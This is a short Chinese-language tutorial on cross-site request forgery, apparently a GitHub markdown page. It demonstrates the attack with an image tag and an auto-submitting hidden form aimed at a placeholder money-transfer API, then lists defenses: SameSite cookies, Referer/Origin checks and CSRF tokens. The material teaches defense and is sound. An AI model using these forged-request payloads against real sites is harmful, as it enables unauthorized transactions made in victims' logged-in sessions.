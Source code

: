 ## 浏览器安全-CSRF


### 介绍
cross site request forgery  跨站请求伪造  又有人叫xsrf

> 不能点陌生链接，这句话大部分人都听过。为什么不能点呢？今天就讲解通过跨站请求伪造诈骗的案例。特别是论坛或邮箱，假设论坛有一个转账接口。

1. 在已登录的论坛上面，看到一张美女大图，下面有一个点击下载按键。
2. 用户点击下载，但这个a标签的链接是一个转账接口请求，这样就可以实现转账了。


### DEMO
```shell

# 转账接口
https://www.dev.com/api/transferMoney
# 参数
## 用户
user
## 金额
number
```

```html
<!-- get -->
<body>
  <div>get method demo</div>
  <a href="https://www.dev.com/api/transferMoney?user=xiao&number=100">点击获取资源</a>
  <!-- 不用点击，直接发送请求了 -->
  <img src="https://www.dev.com/api/transferMoney?user=xiao&number=100" />
</body>

<!-- post -->
<body>
  <form id="post-form" method="post" action="https://www.dev.com/api/transferMoney">
    <input value="xiao" name="user" hidden />
    <input value="100" name="number" hidden />
  </form>
</body>
<script>
  document.getElementById('post-form').submit();
</script>

```
### 小结
> CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事 - -! 

综上所述，满足三个必要条件就可以发动csrf攻击

1. 目标站点要有csrf漏洞
2. 用户登录过目标站点，浏览器保留登录状态
3. 用户打开黑客的链接

### 防护 

1. cookie 设置sameSite    strict  lax none
2. 服务端验证 Referer  origin   origin只是域名  referer全url
3. 添加csrfToken  form表单添加一项，服务端给浏览器端生成一个token 提交要再校验。
```html
<!-- post -->
<body>
  <form id="post-form" method="post" action="https://www.dev.com/api/transferMoney">
    <input value="xxxxxxx" name="csrfToken" hidden />
    <input value="xiao" name="user" hidden />
    <input value="100" name="number" hidden />
  </form>
</body>
<script>
  document.getElementById('post-form').submit();
</script>

> 常用的axios库，可以设计xsrfTokenName   xsrfHeaderName
